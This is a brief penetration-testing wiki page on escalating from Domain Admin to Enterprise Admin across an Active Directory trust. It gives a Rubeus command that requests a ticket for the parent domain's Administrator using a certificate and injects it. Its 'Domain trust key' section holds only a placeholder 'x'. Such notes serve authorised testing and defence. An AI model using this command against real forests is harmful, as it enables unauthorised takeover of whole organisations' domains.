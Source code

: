 # DA to EA

## Request other certificate

When you get DA to a domain via [#pkinit-authentication](../misc/ad-authentication.md#pkinit-authentication "mention"), for instance with [esc1.md](../adcs/exploitation/esc1.md "mention"), you can get Enterprise Admin of a parent domain via:

```powershell
> Rubeus asktgt /user:parentdomain.local\Administrator /dc:dc.parentdomain.local /certificate:<cert> /password:<pass> /nowrap /ptt
```

## Domain trust key

x

